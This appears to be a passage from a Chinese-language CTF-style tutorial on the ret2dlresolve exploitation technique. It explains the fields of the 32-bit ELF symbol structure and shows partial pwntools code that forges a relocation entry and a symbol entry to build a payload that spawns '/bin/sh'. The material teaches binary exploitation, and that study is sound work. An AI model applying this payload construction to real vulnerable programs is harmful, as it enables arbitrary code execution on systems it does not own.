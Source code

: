 `st_name` 是符号字符串在 ELF String Table 的偏移量。`0x54 = 0x080482BC - 0x08048268`

<img src="https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221101001633913.png" alt="image-20221101001633913" style="zoom: 67%;" />

`st_value` 是该符号在内存中的地址。`st_size` 是该符号的大小。

`st_info` 包含了符号的类型和绑定属性等信息。`st_other` 保留位，为0。

`st_shndx` 是符号所在 section 的 index。

![image-20221029103240042](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221029103240042.png)

这里根据原始重定位表项伪造成 `fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)`

Elf32_Sym 结构体都是 0x10 字节大小，所以这里的 `fake_sym` 需要与 ELF Symbol Table 的表头对齐，在前面加上 align。并且计算出 `fake_sym` 距离 dynsym 表的 index。

前面已知 `r_info` 的高 24 位表示重定位入口的符号在符号表的下标，也就是 index_dynsym。低 8 位表示重定位入口类型，填上 0x07，表示 R_386_JMP_SLOT。

```python
···
cmd = b"/bin/sh"
plt_0 = 0x8048370
rel_plt = 0x8048318
index_offset = (base_stage + 0x1c) - rel_plt
write_got = elf.got['write']

dynsym = 0x80481d8
dynstr = 0x8048268
fake_sym_addr = base_stage + 0x24
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # &0xf取低4位
success("align --> %s " % align)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
success("index_dynsym --> %s " % index_dynsym)
r_info = (int(index_dynsym) << 8) | 0x7         # <<8左移2个字节
fake_reloc = p32(write_got) + p32(r_info)
st_name = 0x54
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2  = b'AAAA'                           # 0x00
payload2 += p32(plt_0)                        # 0x04
payload2 += p32(index_offset)                 # 0x08
payload2 += b'AAAA'                           # 0x0c
payload2 += p32(1)                            # 0x10
payload2 += p32(base_stage + 80)              # 0x14
payload2 += p32(len(cmd))                     # 0x18
payload2 += fake_reloc                        # 0x1c
payload2 += b'B' * align
payload2 += fake_sym                          # 0x24 --> 0x24+align
payload2 += b'A' * (80 - len(payload2))
payload2 += cmd + b'\x00'                     # 80
payload2 += b'A' * (100 - len(payload2))
···
```
